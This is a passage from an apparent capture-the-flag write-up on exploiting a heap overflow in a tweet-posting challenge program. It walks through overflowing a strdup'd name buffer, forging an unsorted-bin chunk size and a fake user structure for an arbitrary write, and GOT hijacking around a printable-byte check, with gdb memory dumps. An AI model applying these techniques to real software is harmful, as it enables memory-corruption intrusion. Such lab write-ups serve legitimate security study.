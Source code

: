 ```
          |     .        |
          |     .        |
          |     .        |
          |     .        |
0x1234090 |     0x1234050| userC
          |              |
          |              |
          |              |
          +--------------+

```

I found that I can corrupt the header of unsortbin chunk `0x1234060` by overflowing the `userC->name` buffer ! Later I realized that this is because program use `strdup` to allocate the buffer of `userC->name`. If we set the name length of `userC` less than 24, it will allocate a buffer with size `0x20` ( fastbin[0] ) . But when we change a user's name, it allow us to input at most 32 characters, which will overflow the name buffer !

By corrupting the meta data and change the chunk size from `0x21` to `0xa1` ( the size of a `message` structure ), we can allocate a fake chunk (`0x1234060`, size = `0xa1`), and forge the data structure at `0x1234090` ( a `user` structure ), change the `userC->name` pointer from `0x1234050` into another memory address, then we can do the "write-anywhere" attack ( ex. GOT hijacking ) by changing `userC`'s name .  

So to sum up:
1. Overflow `userC->name`, change the unsortbin chunk size into `0xa1`.
2. Post a tweet, this will allocate the memory from unsortbin.
3. Craft the tweet message, forge a fake `user` structure (modify the `userC->name` pointer).
4. Change the name of `userC` to overwrite the memory.  

Looks simple huh? Except it's **not**. To successfully change a user name, **both the old user name and the new user name's first character has to be printable**. For example, if we want to hijack `free`'s GOT:
```
gdb-peda$ tel 0x603010
00:0000|  0x603010 --> 0x7eff900f44a0 (<_dl_runtime_resolve>:   sub    rsp,0x38)
01:0008|  0x603018 --> 0x7eff8fd9bd00 (<__GI___libc_free>:      mov    rax,QWORD PTR [rip+0x33b1e1]        # 0x7eff900d6ee8)
02:0016|  0x603020 --> 0x7eff8fda19b0 (<strlen>:        pxor   xmm8,xmm8)
03:0024|  0x603028 --> 0x4007f6 (<__stack_chk_fail@plt+6>:      push   0x2)
04:0032|  0x603030 --> 0x7eff8fd8b100 (<setbuf>:        mov    edx,0x2000)
05:0040|  0x603038 --> 0x7eff8fd9fd40 (<__strchr_sse2>: movd   xmm1,esi)
06:0048|  0x603040 --> 0x7eff8fd3ae50 (<__libc_start_main>:     push   r14)
07:0056|  0x603048 --> 0x7eff8fd87160 (<_IO_fgets>:     push   r12)
```
We can see that `free`'s GOT ( `0x603018` ) stores the address `0x7eff8fd9bd00`. Its first character is `0x00`, which is not printable, making us unable to change the content of `0x603018`. Even if its first character is printable, the `system`'s offset in the libc is `0x46590` -- another non-printable first character, which will make the program remove (freeing) the user name and crash the program ( for trying to free a GOT entry ). 

So how are we gonna bypass the check? Well it's a little bit tricky, but also very interesting. I notice that the GOT entry of `stack_chk_fail` stores the address `0x4007f6`. Although `0xf6` is non-printable, the third character `0x40` is a printable character. Hmmmm, if only I can make `0x40` to our user name's first character...
```
gdb-peda$ tel 0x60302a
00:0000|  0x60302a --> 0xb100000000000040   <-- printable first character !
01:0008|  0x603032 --> 0xfd4000007eff8fd8 
02:0016|  0x60303a --> 0xae5000007eff8fd9 
03:0024|  0x603042 --> 0x716000007eff8fd3 
04:0032|  0x60304a --> 0x8e0000007eff8fd8 
05:0040|  0x603052 --> 0xd2b000007eff8fe5 
06:0048|  0x60305a --> 0x86600007eff8fd6 
07:0056|  0x603062 --> 0x8e80000000000040
```